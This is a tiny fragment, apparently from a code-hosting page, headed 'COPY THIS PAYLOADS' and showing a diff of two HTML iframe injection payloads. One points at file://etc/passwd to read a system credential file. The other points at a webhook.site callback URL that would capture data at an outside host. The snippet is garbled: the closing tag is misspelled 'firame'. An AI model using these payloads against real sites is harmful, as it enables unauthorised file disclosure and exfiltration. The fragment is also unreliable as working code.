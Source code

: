 ### COPY THIS PAYLOADS...
```diff
+ <iframe src="file://etc/passwd"></firame>
- <iframe src="https://webhook.site/G-XXXXX"></iframe>
```
